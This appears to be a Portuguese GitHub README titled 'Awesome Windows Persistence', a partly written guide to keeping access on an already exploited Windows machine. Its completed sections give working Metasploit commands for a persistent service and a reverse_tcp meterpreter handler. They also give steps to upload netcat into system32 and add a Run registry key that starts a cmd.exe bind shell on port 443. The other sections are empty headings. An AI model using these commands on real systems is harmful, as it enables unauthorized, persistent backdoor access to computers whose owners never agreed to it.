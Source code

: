 # Awesome Windows Persistence

![829c15633cef94444c681910dfedd23b](https://user-images.githubusercontent.com/67444297/198659100-fbdb0b32-38b0-4ff6-a5ab-7ae305cf51cc.gif)

**Técnicas e táticas para manutenção de persistência em um alvo explorado.**
Eu sou o Stux e estarei constantemente atualizando este repositório com novas técnicas para alvos Windows!

## Sumário
 - [Persistence Service](https://github.com/Stuuxx/awesome-persistence#persistence-service)
 - Persistence Registry
 - Netcat
 - RDP
 - Schtasks
 - Schtasks-Log Events
 - WMIC
 - Wmi-Persistence
 - SharPersist

### Persistence Service

Já com o alvo explorado e com uma shell meterpreter:
- Colocar a sessão em background;
- Utilizar e configurar o módulo exploit/windows/local/persistence_service do metasploit;
Este módulo irá gerar e fazer upload de um executável para o host explorado, em seguida irá torná-lo um serviço persistente. Ele criará um novo serviço que iniciará a carga útil sempre que o serviço estiver em execução.
**É necessário privilégio de administrador ou de sistema!**
```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
![persistence-service](https://user-images.githubusercontent.com/67444297/198635234-f2d8beb0-a0e3-416f-a1b4-ad49d98448ed.jpg)
- Abrir uma nova aba no terminal;
- Utilizar o multi/handler, configurar-lo e colocar para ouvir;
```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```
![persistence-service2](https://user-images.githubusercontent.com/67444297/198635249-b51498b3-7cc6-4cc5-9849-4b143b71e1de.jpg)
Note que logo que você colocar para ouvir o multi/handler, já receberá uma nova shell, isso se da ao fato de que essa técnica é voltada a um serviço persistente, ou seja, está executando o payload diversas vezes enquanto está vivo.
Para prova de conceito, iremos dar um reboot na máquina explorada e aguardar a shell em nosso multi/handler.
![persistence-service3](https://user-images.githubusercontent.com/67444297/198635260-54025d20-366e-4e76-a31e-1731e7da1702.jpg)


### Persistence Registry


### Netcat

Já com o alvo explorado e com uma shell meterpreter:
- Vamos realizar o upload do netcat para algum diretório do alvo.
```bash
upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
```
nc1.jpg

- Após realizado o upload, iremos modificar o registro para que o Netcat seja executado.
```bash
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e C:\windows\system32\cmd.exe'
```
nc2.jpg



### RDP

Já com o alvo explorado e com uma shell meterpreter:


### Schtasks

Já com o alvo explorado e com uma shell meterpreter:


### Schtasks - Log Events

Já com o alvo explorado e com uma shell meterpreter:


## Ficou com alguma dúvida?
Sinta-se a vontade para entrar em contato comigo através de minhas redes sociais!
 - LinkedIn : [Eduardo Maragno](https://www.linkedin.com/in/eduardo-maragno/)
 - Bugcrowd : [@Stux](https://bugcrowd.com/StuxRs)
 - Medium : [@Stux](https://medium.com/@stux)
 - Twitter : [@StuxRs](https://twitter.com/StuxRs)
